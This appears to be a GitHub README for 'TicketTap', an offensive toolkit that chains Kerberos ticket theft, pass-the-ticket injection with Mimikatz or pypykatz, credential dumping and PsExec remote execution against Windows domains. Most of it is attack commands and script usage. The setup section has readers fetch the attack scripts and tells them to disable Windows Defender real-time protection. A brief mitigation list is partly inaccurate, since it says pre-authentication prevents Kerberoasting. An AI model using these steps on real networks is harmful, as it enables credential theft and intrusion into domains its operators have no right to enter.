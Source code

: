 # TicketTap: Remote Code Execution, Lateral Movement, Authentication Bypass, and Privilege Escalation via Kerberos TGS Exploitation

**TicketTap** is a multi-faceted vulnerability exploitation chain leveraging **Kerberos TGS (Ticket Granting Service) tickets** to achieve **Remote Code Execution (RCE)**, **Lateral Movement**, **Authentication Bypass**, and **Privilege Escalation** within a networked environment. This exploit allows attackers to bypass authentication, escalate privileges, and execute arbitrary commands remotely by injecting Kerberos TGS tickets into memory.

---

## Table of Contents
- [Overview](#overview)
- [Exploitation Chain Summary](#exploitation-chain-summary)
- [Detailed Steps for TicketTap](#detailed-steps-for-tickettap)
  - [Step 1: Obtain a TGS Ticket](#step-1-obtain-a-tgs-ticket)
  - [Step 2: Inject the TGS Ticket (Pass-the-Ticket)](#step-2-inject-the-tgs-ticket-pass-the-ticket)
  - [Step 3: Access the Target via RDP or SMB](#step-3-access-the-target-via-rdp-or-smb)
  - [Step 4: Privilege Escalation](#step-4-privilege-escalation)
  - [Step 5: Remote Code Execution (RCE)](#step-5-remote-code-execution-rce)
- [Running the Provided Scripts](#running-the-provided-scripts)
  - [Bash Script (macOS/Linux)](#bash-script-macoslinux)
  - [PowerShell Script (Windows)](#powershell-script-windows)
- [Setting Up the Environment](#setting-up-the-environment)
  - [macOS/Linux Setup](#macoslinux-setup)
  - [Windows Setup](#windows-setup)
- [Mitigation Strategies](#mitigation-strategies)
- [Tools Used](#tools-used)
- [Disclaimer](#disclaimer)

---

## Exploitation Chain Summary

The **TicketTap** exploitation chain follows these key steps:
1. **Obtain a TGS Ticket** using **SPN querying**.
2. **Inject the TGS** into the current session using **Mimikatz** or **pypykatz** (Pass-the-Ticket).
3. **Authenticate** to target services such as **RDP** or **SMB**.
4. **Escalate Privileges** to a highly privileged account.
5. **Execute Remote Code** using **PsExec** or other tools to gain control of the target machine.

---

## Detailed Steps for TicketTap

### Step 1: Obtain a TGS Ticket

You can extract TGS tickets for service accounts using **Impacket's `GetUserSPNs.py`**:
```bash
python3 GetUserSPNs.py <domain>/<username>:<password> -request
```
This will output the **$krb5tgs$** format hash.

### Step 2: Inject the TGS Ticket (Pass-the-Ticket)

Inject the TGS ticket using **Mimikatz** or **pypykatz**.

#### Mimikatz (Windows):
```bash
mimikatz# kerberos::ptt <path_to_tgs.kirbi>
```

#### pypykatz (macOS/Linux):
```bash
python3 pypykatz kerberos ptt <path_to_tgs.kirbi>
```

### Step 3: Access the Target via RDP or SMB

#### RDP (Windows):
```bash
mstsc /v:<target-ip>
```

#### RDP (macOS/Linux):
```bash
rdesktop <target-ip>
```

### Step 4: Privilege Escalation

Leverage tools like **Mimikatz** to extract further credentials and escalate privileges:
```bash
mimikatz# sekurlsa::logonpasswords
```

### Step 5: Remote Code Execution (RCE)

Use **PsExec** to run commands on the target machine.

#### PsExec (Windows):
```bash
python3 psexec.py <username>@<domain> -k -no-pass <target-ip>
```

---

## Running the Provided Scripts

### Bash Script (macOS/Linux)

To use the **Bash script** with **pypykatz** for macOS/Linux, follow the instructions below:

#### Example Usage:
```bash
./tickettap.sh -u Username -t /path/to/TGS.kirbi -m /path/to/pypykatz -ip <ip addr>
```

- This injects the **TGS** for user `Username` and attempts an RDP connection to the target IP.
- If you want to use **PsExec**, provide the `-psexec`, `-d`, and `-pu` flags as well.

#### Flags:
- `-u`: Username for the TGS.
- `-t`: Path to the `.kirbi` file.
- `-m`: Path to **pypykatz**.
- `-ip`: Target IP for **RDP**.
- `-psexec`: Path to **Impacket's `psexec.py`**.
- `-d`: Domain name for **PsExec**.
- `-pu`: Username for **PsExec**.

### PowerShell Script (Windows)

For **Windows**, use the PowerShell script to inject a **TGS** and attempt an RDP connection or **PsExec**.

#### Example Usage:
```bash
.\tickettap.ps1 /u Username /t C:\path\to\TGS.kirbi /mimikatz C:\path\to\mimikatz.exe /ip <ip addr>
```

- Injects the **TGS** and attempts to establish an RDP connection.
- For **PsExec**, provide `/psexec`, `/domain`, and `/psexecUser`.

---

## Setting Up the Environment

Here are setup commands to create the necessary directories, download scripts, and clone dependencies for **macOS/Linux** and **Windows**.

### macOS/Linux Setup

1. **Create a directory** and **download scripts**:
    ```bash
    mkdir TicketTap && cd TicketTap
    curl -O https://raw.githubusercontent.com/jleuth/TicketTap/refs/heads/main/tickettap.sh > tickettap.sh
    ```

2. **Clone dependencies**:
    ```bash
    curl -O https://raw.githubusercontent.com/fortra/impacket/refs/heads/master/examples/GetUserSPNs.py > GetUserSPNs.py
    pip3 install pypykatz
    ```

### Windows Setup

1. **Create a directory** and **download scripts**:
    ```powershell
    mkdir TicketTap && cd TicketTap
    curl -O https://raw.githubusercontent.com/jleuth/TicketTap/refs/heads/main/tickettap.ps1 > tickettap.ps1
    ```

2. **Clone dependencies**:
    ```powershell
    curl -O https://raw.githubusercontent.com/fortra/impacket/refs/heads/master/examples/GetUserSPNs.py > GetUserSPNs.py
    git clone https://github.com/ParrotSec/mimikatz.git 
    ```

3. **Build Mimikatz**:
  Annoyingly, Microsoft HATES Mimikatz, and Windows Defender goes fucking NUTS if you dare even download it. Mimikatz is safe, and [FOSS](https://github.com/ParrotSec/mimikatz) so there's nothing to fear. TEMPORARILY disable Real Time Protection in Defender settings, do what you need to do with Mimikatz, then TURN IT BACK ON! Windows Defender is ass, but it's better than nothing.

---

## Mitigation Strategies

To protect against **TicketTap**, consider the following mitigations:
1. **Enable Kerberos pre-authentication** to prevent **Kerberoasting**.
2. **Limit service account privileges** and audit access control.
3. **Monitor Kerberos authentication logs** for anomalies.
4. **Patch Kerberos-related vulnerabilities** to minimize the risk of exploitation.

---

## Tools Used

- **Mimikatz**: Extract and inject Kerberos tickets.
- **pypykatz**: Python-based Kerberos manipulation (macOS/Linux).
- **Impacket**: Tools for querying SPNs, executing PsExec, etc.

---

## Disclaimer

This repository is for **educational purposes** only. Unauthorized use of these techniques on systems without permission is illegal.